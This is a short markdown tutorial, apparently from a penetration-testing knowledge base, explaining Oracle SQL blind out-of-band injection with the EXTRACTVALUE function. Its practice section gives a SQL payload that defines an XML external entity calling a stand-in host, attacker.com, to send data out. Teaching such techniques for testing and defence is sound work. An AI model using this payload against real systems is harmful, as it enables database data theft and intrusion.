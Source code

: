 ```yaml
---
title: 'EXTRACTVALUE: Oracle SQL Blind Out-of-Band'
description: Learn to exploit Oracle SQL blind out-of-band injection using EXTRACTVALUE
  for data extraction.
keywords:
- EXTRACTVALUE
- Oracle SQL
- blind out-of-band injection
- SQL injection
- XML data extraction
---
```


# EXTRACTVALUE

## Context

This article focuses on exploiting the Oracle SQL blind out-of-band injection technique using the `EXTRACTVALUE` function. To follow this instruction, readers should be familiar with SQL query structures, XML parsing, and Oracle SQL injection techniques.

## Theory

### EXTRACTVALUE Function in Oracle

The `EXTRACTVALUE` function is a powerful feature in Oracle SQL used to extract data from XML documents. It allows querying and manipulation of XML data using an XMLType. While intended for legitimate XML data manipulation, it can be exploited for SQL injection attacks by cleverly injecting malicious XML data.

SQL injection through `EXTRACTVALUE` takes advantage of its parsing capabilities to execute crafted XML payloads containing external entity references. This technique can be used maliciously to leak sensitive data or interact with external systems.

### Blind Out-of-Band Injection

Blind out-of-band injection is a sophisticated SQL injection technique where attackers extract information indirectly by triggering server-side operations that generate external interactions. Unlike traditional injection attacks that directly return results within the application's interface, out-of-band techniques rely on side channels such as HTTP requests, making detection more challenging.

In the context of `EXTRACTVALUE`, an attacker injects XML payloads that force the database to execute out-of-band HTTP requests to an attacker-controlled server. This enables attackers to infer information based on the server’s interaction, effectively bypassing restrictions where direct output isn't possible.

## Practice

### EXTRACTVALUE Blind Out-of-Band Injection

To perform a blind out-of-band injection with `EXTRACTVALUE`, follow these steps:

- **Identify injectable parameters:**
  - Begin by analyzing the Oracle SQL queries for injectable points where the XML payload can be placed. This is often a user input or a parameter in a web application that interacts with the database.

- **Inject the malicious XML payload:**
  - Use the following command to inject the `EXTRACTVALUE` payload into an injectable SQL query parameter:

    ```sql
    SELECT EXTRACTVALUE(xmltype('<!DOCTYPE root [<!ENTITY % ext SYSTEM "http://attacker.com/?data=secret"> %ext;]>'), '/l') FROM dual;
    ```

  This payload attempts to retrieve an external entity `%ext` from an attacker's server `http://attacker.com`. The `data=secret` will be replaced by the actual data extracted during the process.

- **Monitor external server logs:**
  - Once the payload is injected, monitor the logs on the attacker-controlled server (`attacker.com`) to capture incoming requests. These requests reveal information about the data extracted from the database.

#### Result
By using the EXTRACTVALUE out-of-band injection, an attacker gains the ability to extract sensitive data indirectly via external server interactions. This method is effective in scenarios where direct data extraction is restricted or heavily monitored.

## Tools

- **Burp Suite**: A comprehensive web application security testing tool that can be used to identify and exploit SQL injection points.

- **SQLMap**: An open-source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws.
